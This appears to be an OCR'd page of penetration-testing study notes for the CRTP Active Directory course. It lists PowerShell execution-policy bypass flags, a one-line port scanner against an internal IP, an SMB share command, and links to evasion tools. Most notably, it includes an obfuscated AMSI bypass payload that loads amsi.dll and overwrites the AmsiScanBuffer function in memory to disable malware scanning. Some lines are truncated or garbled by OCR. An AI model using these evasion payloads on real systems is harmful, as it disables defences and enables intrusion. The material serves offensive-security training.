 # Active_Directory
CRTP 1
CRTP
List all the command in a module
Get-Command -Module <modulename>
Execution Policy bypass
powershell -ExeutionPolicy bypass
powershell -ep bypass
powershell -c <cmd>
powershell -encodedcommand
powershell -enc
powershell -e
$env:PSExecutionPolicyPreference="bypass"
# https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/
Port Scanner PowerShell script
80,443,8080 | % {echo ((new-object Net.Sockets.TcpClient).Connect(“172.16.3.11”,$_)) “Port $_ is open!”} 2>$null
PowerShell command to create shared folder via SMB
New-SmbShare -Name "Shared Folder" -Path "E:\DSC\" -FullAccess "automationlab\delta","Automationlab\Beta"
Evasion
Obfuscate
CRTP 2
AMSI Bypass Payloads
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
CRTP 3
}
"@
Add-Type $ZQCUW
$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#6
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
Message #general
Bypassing the security controls in PowerShell
https://github.com/OmerYa/Invisi-Shell